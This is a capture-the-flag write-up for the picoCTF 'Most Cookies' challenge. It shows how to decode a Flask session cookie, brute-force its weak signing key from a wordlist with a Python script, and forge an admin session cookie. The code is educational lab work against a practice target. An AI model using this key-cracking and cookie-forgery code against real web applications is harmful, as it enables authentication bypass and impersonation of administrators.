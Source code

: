 ```yaml
---
description: 'Flask client-side sessions, cookie forgery'
---
```


# Most Cookies \(150\)

## Problem

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py)

{% embed url="http://mercury.picoctf.net:18835" %}

## Solution

From the source code, things to note:

1. The /display page checks the session cookie. We need to change the `very_auth` session variable to `admin` somehow.

![](../../.gitbook/assets/93b4e2f47ebf4169b2951b4ea172732e.png)

1. The Flask session secret key is hardcoded into the source code!

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

We can decode the Flask session cookie like this:

1. Take the part before the period \(`.`\)

![](../../.gitbook/assets/ef9046c48d2a4f77bbbda919dcc567e4.png)

1. Append the `==` padding
2. Base64 decode:

```python
>>> base64.urlsafe_b64decode('eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0==')
b'{"very_auth":"snickerdoodle"}'
```

So we can change the session variable to `admin` and encode it again, but first, we need to crack the secret key. This is because the remainder of the session cookie is the **signature** which will be checked at the server-side to prevent tampering.

The following script will bruteforce each secret in the wordlist:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str="eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YF7u-Q.G5B5RUmEVaXNyLzjitMwzPxALp4"
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)


for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue

    print(secret_key)
    print(cookie)
```

Here, the secret key is `'butter'`.

![](../../.gitbook/assets/3fc8cd43608949f6b5186a7a9ed353a7.png)

With the secret key, we can craft our own session cookie:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

session = {'very_auth': 'admin'}
secret = 'butter'

print(URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))
```

![](../../.gitbook/assets/2e06021675f04f98896b554384cd1678.png)

Putting this new crafted cookie back into Burpsuite, we get the flag in the response.

![](../../.gitbook/assets/c61a8cc65a8942c6990ee65ccf80cc71.png)

